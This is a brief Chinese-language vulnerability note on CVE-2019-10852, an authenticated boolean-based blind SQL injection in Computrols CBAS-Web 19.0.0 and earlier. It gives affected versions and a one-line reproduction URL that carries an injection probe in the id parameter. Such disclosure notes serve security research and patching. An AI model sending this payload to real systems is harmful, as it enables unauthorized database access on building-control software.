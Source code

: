 ```yaml
---
title: "（CVE-2019-10852）Computrols CBAS Web SQL注入"
id: zhfly2853
---
```


# （CVE-2019-10852）Computrols CBAS Web SQL注入

## 一、漏洞简介

Computrols CBAS-Web经过身份验证的基于布尔的盲SQL注入

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

```
http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510 
```